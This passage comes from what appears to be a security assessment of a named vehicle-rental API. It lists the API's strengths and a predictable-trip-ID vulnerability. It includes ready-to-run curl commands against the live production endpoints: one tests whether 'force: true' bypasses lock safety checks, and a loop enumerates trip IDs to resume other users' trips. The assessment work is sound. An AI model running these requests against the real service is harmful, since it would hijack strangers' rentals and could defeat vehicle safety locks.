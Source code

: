 **Description:**
The `"force": false` parameter suggests there's a `"force": true` option that may bypass safety checks.

**Questions:**
- What does `force: true` bypass?
- Speed checks?
- Motion detection?
- Other user's active rental?

**Recommended Testing:**
```bash
# Test if force=true bypasses restrictions
curl -X POST 'https://api.knotcity.io/api/application/vehicles/freefloat/lock/temporary' \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"vehicleId": 909, "force": true}'
```

---

### 1.2 Unlock API (Resume Trip)

```http
PUT https://api.knotcity.io/api/application/trips/321668/resume
Authorization: Bearer {JWT_TOKEN}
```

**Security Observations:**

#### ✅ Strengths:
- Uses trip ID instead of vehicle ID (better security model)
- REST-compliant verb (PUT for state update)
- HTTPS encryption

#### 🔴 Critical Vulnerabilities:

##### **V4: Predictable Trip IDs**
**Severity:** HIGH
**Impact:** Unauthorized trip resumption

**Description:**
Trip ID `321668` appears to be a sequential integer. If trip IDs are predictable and not properly authorized:

**Attack Vectors:**
```bash
# Enumerate valid trip IDs
for tripId in {320000..330000}; do
  response=$(curl -s -o /dev/null -w "%{http_code}" \
    -X PUT "https://api.knotcity.io/api/application/trips/$tripId/resume" \
    -H "Authorization: Bearer $TOKEN")

  if [ "$response" == "200" ]; then
    echo "Successfully resumed trip $tripId (not mine!)"
  fi
done
```
